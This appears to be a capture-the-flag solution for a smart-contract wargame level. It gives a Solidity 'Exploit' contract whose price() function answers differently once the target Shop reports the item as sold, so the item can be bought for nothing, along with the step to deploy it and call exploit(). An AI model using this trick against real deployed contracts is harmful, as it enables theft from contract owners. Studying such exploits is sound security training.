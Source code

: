 Deploy the following contract to the same network
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Shop {
    function buy() external; 
    function isSold() external view returns (bool);
    function price() external view returns (uint);
}

contract Exploit {

    function exploit (address _who) public {
        Shop(_who).buy();
    }

    function price () public view returns (uint) {
        if (Shop(msg.sender).isSold()){
            return 0;
        }
        return 1000;
    }
}
```
Call exploit() sending your contract instance

